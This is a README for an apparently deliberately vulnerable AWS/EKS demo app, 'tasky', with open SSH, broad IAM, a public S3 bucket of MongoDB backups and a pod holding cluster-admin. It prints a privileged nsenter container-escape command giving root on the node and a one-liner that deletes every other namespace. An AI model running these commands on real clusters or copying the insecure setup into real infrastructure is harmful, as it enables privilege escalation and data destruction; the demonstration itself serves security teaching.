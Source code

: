 # aws-tasky
This repo will build all required AWS Networking and resources to run a 3 tiered MongoDB app.  This includes EC2, EKS, S3, Route53, and AWS Config.

## Pre Reqs
- Setup shell with AWS credentials
- AWS Key Pair
- Terraform 1.3.7+
- aws cli
- kubectl
- helm
- curl
- jq

## Getting Started
```
cd quickstart/infra
```
Update the `my.auto.tfvars` for your environment.  Configure your existing AWS Key Pair or copy a local SSH key to your region using this script `./scripts/push-aws-sshkey-multiregion.sh`. Review the prefix being used for resource names, the EKS version, private zone name for route53, and external  CIDR for SSH access. 

### Provision Infrastructure
Use terraform to build the required AWS Infrastructure
```
terraform init
terraform apply -auto-approve
```
All AWS resources will be provisioned and configured to support the tasky application.

### Resource Overview
While the infrastructure is being provisioned review the resources that are being created.

#### Tasky Image
* [Dockerfile](https://github.com/ppresto/aws-tasky/blob/main/docker/Dockerfile.chainguard-static)

#### AWS VPC
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/locals-usw2.tf#L17)
* [terraform-aws-modules/vpc/aws](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf)
#### AWS EC2
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L54)
* [IAM Profile](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_iam_profile/iam-profile.tf)
    * Actions: "ec2:*","s3:GetObject","s3:PutObject","s3:PutObjectAcl","s3:DeleteObject","s3:ListBucket"
#### AWS Security Groups
  * [EC2](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/main.tf#L30)
    * Ingress: Allow "0.0.0.0/0" -> TCP 22
    * Egress:  Allow "0.0.0.0/0: -> Any Protocol, Any Port
  * [MongoDB](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_sg_mongod/main.tf#L12)
    * Ingress: Allow "10.15.0.0/20" -> TCP 27017
#### AWS Route53
* [mongoDB record](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L82)

#### AWS S3
* [Public bucket](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L115)

#### Mongo DB
* [DB build script](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/templates/mongo.sh)

Its recommended to shift left to the Infrastructure pipeline and use Packer to build the mongodb image.  Leverage your standard secrets mgmt solution to configure DB access to avoid leaking sensitive data in the process.  This image was created using Terraform's user_data to keep everything simple and using a single tool.

#### AWS EKS Cluster 1.29
* [Configuration](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf#L129)
* [terraform-aws-modules/eks/aws](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/main.tf#L9)

#### AWS Loadbalancer controller
* [AWS LB controller](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_alb/aws_alb_controller.tf) 

This was installed as a best pratice to support internal NLB or ALBs to EKS services.  The required pulic subnet tags were added as part of the VPC creation to enable the ALB to discover EKS services in the private subnets.


## Connect to EKS
Connect to EKS using `scripts/kubectl_connect_eks.sh`.  Pass this script the path to the terraform state file used to provision the EKS cluster.  If cwd is ./infra like above then this command would look like the following:
```
source ../../scripts/kubectl_connect_eks.sh .
kubectl -n tasky get po
```
This script connects EKS and builds some useful aliases shown in the output.

## Get the Ingress URL
Use this URL to access the Tasky application.  Login to verify Tasky is healthy and create tasks.
```
make getIngress

Tasky URL - http://tasky-ingress-1379807902.us-west-2.elb.amazonaws.com
```
FYI: The Makefile can also be used to see pre and post security scans, build infra, and clean up the project.

## Tasky Application - Verify RBAC
Is the application running with cluster-admin privileges?

The tasky pod should be running a second container `network-multitool`.  To see if containers have cluster-admin privilages connect to the sidecar, install `kubectl`, and use it to **escape into the Working Node as root!**
```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 755 kubectl
```

Escape into the Node as **root** with kubectl
```
./kubectl run r00t --restart=Never -ti --rm --image tasky --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
## SSH to Ext MongoDB
Get the public IP of the EC2 instance running Mongo DB
```
IP=$(terraform output -json | jq -r '.usw2_ec2_ip.value."usw2-shared-ext-mongodb"')
```

SSH to the Ubuntu EC2 instance.  
```
ssh ubuntu@${IP}
```
This will use the AWS key that was defined in `my.auto.tfvars`

## Mongo DB Backups to S3
Verify the backups are going to S3, they are public, and can be downloaded.  Start by going to the S3 URL in your browser.
```
terraform output bucket_url
```
You should see a list of .tar.gz files.  These are the DB backups happening every 5 minutes.  Copy one of the file names and update the URL with `/<filename>`.  This should download the exact file.

## Notes
Delete other namespaces to show you have cluster-admin privileges
```
./kubectl get ns --no-headers=true | sed "/kube-*/d" | sed "/default/d" | sed "/tasky/d" | awk '{print $1;}' | xargs ./kubectl delete ns
```

## References
[OWASP Cheatsheets](https://cheatsheetseries.owasp.org/index.html)
[OWASP Cheatsheets Repo](https://github.com/OWASP/CheatSheetSeries)
[2023 OSS Security Report](https://go.snyk.io/state-of-open-source-security-report-2023-dwn-typ.html)
[HackTricksCloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes)